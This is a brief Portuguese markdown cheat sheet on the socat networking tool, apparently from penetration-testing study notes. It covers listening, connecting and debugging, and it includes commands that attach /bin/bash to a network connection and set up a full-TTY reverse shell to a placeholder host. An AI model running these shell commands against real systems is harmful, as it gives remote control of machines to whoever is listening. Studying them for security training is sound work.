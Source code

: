 # SOCAT 🐈‍⬛

Possui as mesmas funcionalidades do Netcat e Ncat porém com uma sintaxe um pouco mais complexa.

Socat é muito importante em casos que não temos acesso ao Python ou outra técnica de upgrade de Shell para TTY.

## Comandos 🕹

```bash
socat tcp4-listen:<port> -
```
Precisamos ao final do comando inserir um `-` para o programa entender que não iremos fornecer mais argumentos.

```bash
socat -dd tcp4-listen:<port> -
```
Podemos utilizar o argumento `-dd` para iniciar o modo de debug, o que seria o argumento `-v` do Netcat.

```bash
socat tcp4:<ip>:<port> -
```
Com o comando acima iniciamos uma conexão com o ip e porta desejados.

```bash
socat tcp4:<ip>:<port> EXEC:/bin/bash
```
Para realizarmos o `bind` igual ao Netcat, utilizamos o argumento `EXEC:` e o executável que desejamos logo em seguida. Neste caso não precisamos do `-` ao final do comando.

```bash
socat file:`tty`,raw,echo=0 tcp-listen:<port>
```
Escutando a porta utilizando TTY.

```bash
socat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:<ip>:<port>
```
Realizando conexão com o TTY.